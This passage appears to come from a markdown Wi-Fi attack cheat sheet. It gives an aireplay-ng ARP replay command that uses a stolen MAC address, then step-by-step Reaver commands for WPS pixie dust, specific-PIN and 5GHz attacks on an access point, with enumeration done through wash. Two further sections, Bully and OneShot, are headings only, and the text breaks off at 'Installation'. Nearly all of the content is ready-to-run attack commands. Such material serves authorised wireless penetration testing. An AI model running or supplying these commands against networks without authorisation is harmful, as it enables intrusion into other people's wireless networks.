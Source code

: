 ```
aireplay-ng -3 -b <bssid> -h <stolen MAC address> <monitor wireless card>
```


## WPS Attacks<a name="WPSAttack"></a>

### Reaver - WPS Attacks<a name="reaver"></a>

#### Pixie Dust Attack

Install Reaver

```
sudo apt-get install reaver
```

Set wireless card in monitor mode

```
sudo airmon-ng start <wirless card>
```

Enumerate Wireless Point using wash

```
wash -i <monitor wireless card>
```

Execute pixie dust attack

```
reaver -i <monitor wireless card> -b <bssid> -vv -K 1
```

#### Specific Pin Attack

Note : The parameter -S is used to use small DH keys to improve crack speed

```
reaver -i <monitor wireless card> -b <bssid> -vv -p <PinCode> -S
```

#### 5GHz Target

Note : Target 5GHz with the "-5" parameter. Example using Pixie Dust Attack bellow.

```
reaver -i <monitor wireless card> -b <bssid> -5 -vv -K 1
```

### Bully - WPS Attacks<a name="bully"></a>



### OneShot - WPS Attacks without Monitor Mode Enabled<a name="WPS-nomon"></a>

#### Installation
 